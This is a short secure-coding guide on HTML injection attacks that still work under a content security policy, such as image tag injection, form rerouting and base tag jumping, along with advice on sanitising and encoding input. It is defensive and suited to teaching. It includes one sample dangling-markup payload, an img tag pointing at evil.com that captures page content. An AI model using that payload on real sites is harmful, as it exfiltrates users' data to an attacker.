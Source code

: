 ##Description:

Whenever an attacker can inject HTML in your application there is a variety of different
attacks he could perform such as:

1. Content Spoofing
2. Image Tag Injection 	
3. Form Rerouting
4. Base Jumping
5. Element Override
6. Hanging Textarea

Even when your application intercepts XSS injections by means of a content security policy
header it still remains vulnerable to the attacks summarized above.

##Mitigation:

1.Content spoofing Otherwise known as "Content Injection" or "Virtual Defacement" occurs whenever an attacker can inject code into your application. It is very important to sanitize and or encode user data before you display it on screen as HTML.

2.Image tag injection occurs whenever an attacker injects a broken image tag with a non-terminated parameter like: "img src='http://evil.com?steal.php?value= Every content after value= parameter will now be stolen and send to evil.com by the attacker till the injection finds the next occurrence of a matching single quote.
Again you should sanitize and encode the user input to prevent an image tag from being injected in your application. For whenever a user is permitted to submit an image on your application enforce and verify the application accepts valid non-broken tags only.

3.The "form" tag can't be nested. The top-level occurrence of this element always takes precedence over subsequent appearances. Again you must avoid this type by properly encoding and sanitizing your user-inputs.

4.Whenever an attacker injects a "base" tag into your application it can steal data because the tag specifies the base URL/target to where to process the data to.
The solution to base jumping would be to use absolute paths in your application such as  action='/update_profile.php'
instead of: action='update_profile.php'

5/6 can both also easily be prevented simply be encoding or sanitizing your user-input submitted towards your application.
Always validate your user input on a high level(server-side constraint). Whenever your application expects an integer you should validate and check whether the user submitted input really is what you expected it to be and otherwise, you terminate and log the request.

